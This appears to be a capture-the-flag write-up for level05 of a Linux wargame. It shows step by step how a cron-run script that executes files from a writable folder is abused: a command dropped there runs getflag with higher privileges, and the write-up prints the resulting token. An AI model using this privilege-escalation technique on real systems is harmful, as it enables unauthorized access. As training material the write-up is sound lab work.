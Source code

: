 ## Exploring the exercice

```bash 
$ ls -la
$ ls -la
total 12
dr-xr-x---+ 1 level05 level05  100 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level05 level05  220 Apr  3  2012 .bash_logout
-r-x------  1 level05 level05 3518 Aug 30  2015 .bashrc
-r-x------  1 level05 level05  675 Apr  3  2012 .profile

```

Nothing interesting. Let's go back to what we did in the first exercice. 

```bash 
$ find / -user level05 2>/dev/null
[Many results so probably not here]
```

```bash
$ find / -user flag05 2>/dev/null
/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver
```

```bash
$ file /usr/sbin/openarenaserver 
/usr/sbin/openarenaserver: POSIX shell script, ASCII text executable
```

```bash
$ ls -l /usr/sbin/openarenaserver 
-rwxr-x---+ 1 flag05 flag05 94 Mar  5  2016 /usr/sbin/openarenaserver
```

The +1 informs us that an ACL(Access Control List) rule is defined, let's see what it allows us to do.

```bash
$ getfacl /usr/sbin/openarenaserver
# file: usr/sbin/openarenaserver
# owner: flag05
# group: flag05
user::rwx
user:level05:r--
group::r-x
mask::r-x
other::---
```

We cannot read the file normally but thanks to the ACL rule we can. 

```bash
$ cat /usr/sbin/openarenaserver 
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done

```

We have a POSIX shell that executes every file in folder /opt/openarenaserver and deletes them after.

Let's try to add a file to the folder. 

```bash
$ echo "getflag" > /opt/openarenaserver/test.sh
$ ls /opt/openarenaserver/
test.sh
```

It worked our file is here. 

```bash
$ /usr/sbin/openarenaserver
-bash: /usr/sbin/openarenaserver: Permission denied
```

We cannot excute the openarenaserver ourself, so a cron must be doing it. 
In fact after a certain period of time our file is gone. 

```bash
$ ls /opt/openarenaserver/

```
Let's right the output of getflag in a file so we can retrieve it after the cron executed it.


```bash
$ echo "getflag > /tmp/flagg" > /opt/openarenaserver/script.sh 
```

```bash
$ cat /tmp/flagg
Check flag.Here is your token : viuaaale9huek52boumoomioc
```

We got our flag !
